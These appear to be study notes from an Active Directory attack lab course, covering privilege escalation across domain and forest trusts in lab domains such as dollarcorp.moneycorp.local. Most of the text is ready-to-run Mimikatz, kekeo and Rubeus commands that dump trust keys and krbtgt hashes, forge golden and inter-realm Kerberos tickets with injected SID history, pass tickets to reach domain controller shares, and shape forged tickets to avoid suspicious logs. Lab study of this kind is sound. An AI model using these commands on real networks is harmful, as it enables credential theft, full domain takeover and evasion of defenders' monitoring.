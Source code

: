 # Across Trusts

• Across Domains - Implicit two way trust relationship. 
• Across Forests - Trust relationship needs to be established.

## Child to Parent

• Child to Forest Root 

• Domains in same forest have an implicit two-way trust with other domains. There is a trust key between the parent and child domains. 

• There are two ways of escalating privileges between two domains of same forest: 
– Krbtgt hash 
– Trust tickets

![[Pasted image 20230106220826.png]]

![[Pasted image 20230106220904.png]]

#### Get Trust Key from child to parent
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' - ComputerName dcorp-dc

# Or
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
```

## Child to Forest root using Trust Tickets. 

#### Inter-realm TGT forging
```powershell
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:7ef5be456dc8d7450fb8f5f7348746c5 /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi"'
```
![[Pasted image 20230106223817.png]]

#### Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket.
```powershell
.\asktgs.exe C:\AD\Tools\kekeo_old\trust_tkt.kirbi CIFS/mcorp-dc.moneycorp.local
```

Tickets for other services (like HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting and WinRM) can be created as well.

#### Use the TGS to access the targeted service (may need to use it twice). 
```powershell
.\kirbikator.exe lsa .\CIFS.mcorpdc.moneycorp.local.kirbi 

ls \\mcorp-dc.moneycorp.local\c$

# With Rubeus
.\Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi /service:cifs/mcorp-dc.moneycorp.local /dc:mcorpdc.moneycorp.local /ptt 

ls \\mcorp-dc.moneycorp.local\c$
```

# Learning Objective 19

Using DA access to dollarcorp.moneycorp.local, escalate privileges to Enterprise Admin or DA to the parent domain, moneycorp.local using the domain trust key.

## Child to Parent Using krbtgt hash

#### Abuse SID history once again 
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' 

Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:C:\AD\Tools\krbtgt_tkt.kirbi"'
```

#### On any machine of the current domain 
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"' 

ls \\mcorp-dc.moneycorp.local.kirbi\c$ 

gwmi -class win32_operatingsystem -ComputerName mcorpdc.moneycorp.local
```

#### Avoid suspicious logs
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:dcorp-dc$ /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631- 3219952063-538504511 /groups:516 /sids:S-1-5-21-280534878-1496970234-700767426-516,S-1-5-9 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ptt"' 

Invoke-Mimikatz -Command '"lsadump::dcsync /user:mcorp\Administrator /domain:moneycorp.local"'
```

• S-1-5-21-2578538781-2508153159-3419410681-516 -> Domain Controllers 
• S-1-5-9 -> Enterprise Domain Controllers

# Learning Objective 20

Using DA access to dollarcorp.moneycorp.local, escalate privileges to Enterprise Admin or DA to the parent domain, moneycorp.local using dollarcorp's krbtgt hash.

# Across Forests

![[Pasted image 20230106224942.png]]

#### Once again, we require the trust key for the inter-forest trust.
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' 
# Or 
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

#### An inter-forest TGT can be forged
```powershell
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /rc4:cd3fb1b0b49c7a56d285ffdbb1304431 /service:krbtgt /target:eurocorp.local /ticket:C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi"'
```

#### Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket. 
```powershell
.\asktgs.exe C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi CIFS/eurocorp-dc.eurocorp.local
```

• Tickets for other services (like HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting and WinRM) can be created as well.

#### Use the TGS to access the targeted service. 
```powershell
.\kirbikator.exe lsa .\CIFS.eurocorpdc.eurocorp.local.kirbi 

ls \\eurocorp-dc.eurocorp.local\forestshare\

# With Rubeus
.\Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi /service:cifs/eurocorp-dc.eurocorp.local /dc:eurocorpdc.eurocorp.local /ptt 

ls \\eurocorp-dc.eurocorp.local\forestshare\
```

# Learning Objective 21


